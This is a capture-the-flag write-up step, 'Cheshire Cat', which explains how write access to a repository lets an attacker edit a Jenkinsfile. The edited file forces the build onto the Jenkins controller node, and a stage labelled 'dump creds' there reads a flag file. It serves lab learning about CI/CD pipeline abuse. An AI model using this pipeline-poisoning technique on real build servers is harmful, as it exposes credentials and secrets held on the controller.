 # Cheshire Cat

Our git user `thealice` has read/write access to the `Wonderland/cheshire-cat` repository. 

The description of the flag suggests it is located specifically on the Jenkins controller node itself.

Sine we can modify the Jenkinsfile and have it run, we can just force it to run on the controller node and dump the file:

```Jenkinsfile
pipeline {
    agent { label 'built-in' }
    environment {
        PROJECT = "sanic"
    }

    stages {
        stage('dump creds') {
            steps {
                sh """
                    cat ~/flag5.txt
                """
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```
